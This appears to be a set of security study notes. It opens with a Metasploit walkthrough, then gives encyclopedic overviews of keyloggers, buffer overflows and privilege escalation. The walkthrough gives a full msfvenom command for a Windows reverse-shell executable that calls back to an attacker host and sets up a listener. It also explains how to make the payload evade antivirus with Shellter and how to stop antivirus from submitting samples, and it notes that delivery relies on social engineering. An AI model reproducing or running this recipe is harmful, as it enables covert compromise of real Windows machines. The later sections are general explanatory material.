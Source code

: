 **Windows and Linux – Metasploit and Kali Linux**



The Metasploit Framework is the most commonly-used framework for hackers worldwide. It allows hackers to set up listeners that create a conducive environment (referred to as a Meterpreter) to manipulate compromised machines. In this article, we’ll look at how this framework within Kali Linux can be used to attack a Windows 10 machine. 

## Creating a Malicious .exe File

To create the executable, you would use msfvenom as shown in the command below:

**msfvenom -p windows/meterpreter/reverse_tcp -a x86 –platform windows -f exe LHOST=192.168.100.4 LPORT=4444 -o /root/something32.exe**

The command above instructs msfvenom to generate a 32-bit Windows executable file that implements a reverse TCP connection for the payload. The format must be specified as being type .exe, and the local host (LHOST) and local port (LPORT) have to be defined. In our case, the LHOST is the IP address of our attacking Kali Linux machine, and the LPORT is the port to listen on for a connection from the target once it has been compromised.

**Making the Executable FUD (Fully Undetectable)**

To encode our executable, we shall be using [Shellter](https://www.shellterproject.com/). Shellter works by changing the executable’s signatures from the obviously malicious one to a completely new and unique one that can bypass detection.

Note that antiviruses also check the behavior of executables and employ techniques such as heuristics scanning, so they are not just limited to checking for signatures. During our lab tests we discovered that Windows Defender, which ships by default with Windows 10, flagged the executable 6 out of the 10 times we used Shellter to perform the encoding. This is despite Windows 10 being a fresh download with latest patches applied! You will be better off purchasing Shellter Pro (or any Pro Crypter) or writing your own Crypter to avoid antivirus flagging your executables.

Also note that when writing your own, disable automatic submissions. Otherwise whatever you write, if detected as potentially-unwanted software, will be uploaded by your antivirus for analysis … And we both know how that will end.

To launch Shellter just type **shellter** on the terminal.

You will be required to enter the absolute path to the executable to make FUD. Make sure to select “Auto” mode as shown below.

![shellter](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/3-120.png)

Shellter will then initialize and run some checks. It will then prompt you whether to run in stealth mode. Select “Y” for yes.

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/4-84.png)

The next prompt will require you to enter the payload, either a custom or a listed one. You should select a listed one by typing “L”, unless you want to proceed with your own custom payload. Select the index position of the payload to use. We need a Meterpreter_Reverse_TCP, so we will have to go with “1.”

![]([![img](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/5-74-768x481.png)](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/5-74.png)

Enter LHOST and LPORT and press Enter. Shellter will run to completion and request you to press Enter.

![](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/6-41.png)

At this point, the executable you provided will have been made undetectable to antivirus solutions.

Again, note that you are better off writing your own or purchasing a Crypter that is constantly being revised. Otherwise, most of your encoding will be flagged as malicious or potentially unwanted software.

We now need to set up a listener on the port we determined within the executable. We do this by launching Metasploit using the command **msfconsole** on the Kali Linux terminal.

First, we’ll tell Metasploit to use the generic payload handler “multi/handler” using the command **use multi/handler**. We will then set the payload to match the one set within the executable using the command **set payload windows/meterpreter/reverse_tcp**. We will then set the LHOST and LPORT this way — **set LHOST 192.168.100.4** and **set LPORT 4444**. Once done, type “run” or “exploit” and press Enter.

[![img](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/7-40-768x299.png)](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/7-40.png)

The next step is to execute it from a Windows perspective. In a real-world practical situation, this will require social engineering skills. Nevertheless, copy the something32 to a Windows system within the same network as the Kali system.

We now only have to run the payload from windows perspective to initialize exploitation

[![img](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/8-25.png)](https://mk0resourcesinfm536w.kinstacdn.com/wp-content/uploads/8-25.png)



**Keylogging**

**Keystroke logging**, often referred to as **keylogging** or **keyboard capturing**, is the action of recording (logging) the keys struck on a [keyboard](https://en.wikipedia.org/wiki/Keyboard_(computing)), typically covertly, so that person using the keyboard is unaware that their actions are being monitored. Data can then be retrieved by the person operating the logging program. A **keylogger** can be either [software](https://en.wikipedia.org/wiki/Software) or [hardware](https://en.wikipedia.org/wiki/Computer_hardware). 

While the programs themselves are legal,[[1\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-1) with many of them being designed to allow employers to oversee the use of their computers, keyloggers are most often used for the purpose of stealing [passwords](https://en.wikipedia.org/wiki/Password) and other confidential information.[[2\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-2)[[3\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-3) 

Keylogging can also be used to study human–computer interaction. Numerous keylogging methods exist:  they range from hardware and software-based approaches to [acoustic](https://en.wikipedia.org/wiki/Acoustics) analysis.



**Software-based keyloggers**

Software-based keyloggers are computer programs designed to work on the target computer's [software](https://en.wikipedia.org/wiki/Software).[[4\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-4) Keyloggers are used in [IT](https://en.wikipedia.org/wiki/Information_technology) organizations to troubleshoot technical problems with computers and business networks.  Families and business people use keyloggers legally to monitor network usage without their users' direct knowledge. Even [Microsoft](https://en.wikipedia.org/wiki/Microsoft) publicly admitted that [Windows 10](https://en.wikipedia.org/wiki/Windows_10) operation system has a built-in keylogger in its final version “to improve typing and writing services”.[[5\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-5) However, malicious individuals can use keyloggers on public computers to steal passwords or credit card information. Most keyloggers are not stopped by [HTTPS](https://en.wikipedia.org/wiki/HTTP_Secure) encryption because that only protects [data in transit](https://en.wikipedia.org/wiki/Data_in_transit) between computers, thus the threat being from the user's computer.

**Hardware-based keyloggers**

Hardware-based keyloggers do not depend upon any software being installed as they exist at a hardware level in a computer system. 

- Firmware-based: [BIOS](https://en.wikipedia.org/wiki/BIOS)-level [firmware](https://en.wikipedia.org/wiki/Firmware) that handles keyboard events can be modified to record these events as they are processed. Physical and/or [root-level access](https://en.wikipedia.org/wiki/Superuser) is required to the machine, and the software loaded into the BIOS needs to be created for the specific hardware that it will be running on.[[14\]](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-14)
- Keyboard hardware: Hardware keyloggers are used for keystroke logging by means of a hardware circuit that is attached somewhere in between the [computer keyboard](https://en.wikipedia.org/wiki/Computer_keyboard) and the computer, typically inline with the keyboard's cable connector. There are also [USB](https://en.wikipedia.org/wiki/Universal_Serial_Bus) connectors based Hardware keyloggers as well as ones for Laptop computers (the Mini-PCI card plugs into the expansion slot of a laptop). More stealthy implementations can be installed or built into standard keyboards, so that no device is visible on the external cable. Both types log all keyboard activity to their [internal memory](https://en.wikipedia.org/wiki/Primary_storage), which can be subsequently accessed, for example, by typing in a secret key sequence. A hardware keylogger has an advantage over a software solution: it is not dependent on being installed on the target computer's operating system and therefore will not interfere with any program running on the target machine or be detected by any [software](https://en.wikipedia.org/wiki/Anti-spyware_software). However its physical presence may be detected if, for example, it is installed outside the case as an inline device between the computer and the keyboard.  Some of these implementations have the ability to be controlled and monitored remotely by means of a wireless communication standard.



**Buffer Overflow**

A **buffer** is a temporary area for data storage. When more data (than was originally allocated to be stored) gets placed by a program or system process, the extra data overflows. It causes some of that data to leak out into other buffers, which can corrupt or overwrite whatever data they were holding.

In a **buffer-overflow attack,** the extra data sometimes holds specific instructions for actions intended by a hacker or malicious user; for example, the data could trigger a response that damages files, changes data or unveils private information.

Attacker would use a buffer-overflow exploit to take advantage of a program that is waiting on a user’s input. There are two types of buffer overflows: stack-based and heap-based. Heap-based, which are difficult to execute and the least common of the two, attack an application by flooding the memory space reserved for a program. Stack-based buffer overflows, which are more common among attackers, exploit applications and programs by using what is known as a stack: memory space used to store user input.

## **Key Concepts of Buffer Overflow**

- This error occurs when there is more data in a buffer than it can handle, causing data to overflow into adjacent storage.
- This vulnerability can cause a system crash or, worse, create an entry point for a cyberattack.
- C and C++ are more susceptible to buffer overflow.
- Secure development practices should include regular testing to detect and fix buffer overflows. These practices include automatic protection at the language level and bounds-checking at run-time.

 **Privilege Escalation**

**[![img](https://upload.wikimedia.org/wikipedia/commons/thumb/c/cc/Privilege_Escalation_Diagram.svg/220px-Privilege_Escalation_Diagram.svg.png)](https://en.wikipedia.org/wiki/File:Privilege_Escalation_Diagram.svg)**

**Privilege escalation** is the act of exploiting a [bug](https://en.wikipedia.org/wiki/Software_bug), design flaw or configuration oversight in an [operating system](https://en.wikipedia.org/wiki/Operating_system) or [software application](https://en.wikipedia.org/wiki/Software_application) to gain elevated access to [resources](https://en.wikipedia.org/wiki/Resource_(computer_science)) that are normally protected from an application or [user](https://en.wikipedia.org/wiki/User_(computing)). The result is that an application with more [privileges](https://en.wikipedia.org/wiki/Privilege_(computing)) than intended by the [application developer](https://en.wikipedia.org/wiki/Programmer) or [system administrator](https://en.wikipedia.org/wiki/System_administrator) can perform [unauthorized](https://en.wikipedia.org/wiki/Authorization) actions.

Most computer systems are designed for use with multiple user accounts, each of which has abilities known as [privileges](https://en.wikipedia.org/wiki/Privilege_(computing)). Common privileges include viewing and editing files, or modifying system files. 

Privilege escalation means a user receives privileges they are not entitled to. These privileges can be used to delete files, view private information, or install unwanted programs such as viruses. It usually occurs when a system has a [bug](https://en.wikipedia.org/wiki/Software_bug) that allows security to be bypassed or, alternatively, has flawed design assumptions about how it will be used.  Privilege escalation occurs in two forms: 

- **Vertical privilege escalation**, also known as *privilege elevation*, where a lower privilege user or application accesses functions or content reserved for higher privilege users or applications (e.g. Internet Banking users can access site administrative functions or the password for a smartphone can be bypassed.)
- **Horizontal privilege escalation**, where a normal user accesses functions or content reserved for other normal users (e.g. Internet Banking User A accesses the Internet bank account of User B)![img](https://upload.wikimedia.org/wikipedia/commons/thumb/2/2f/Priv_rings.svg/1024px-Priv_rings.svg.png)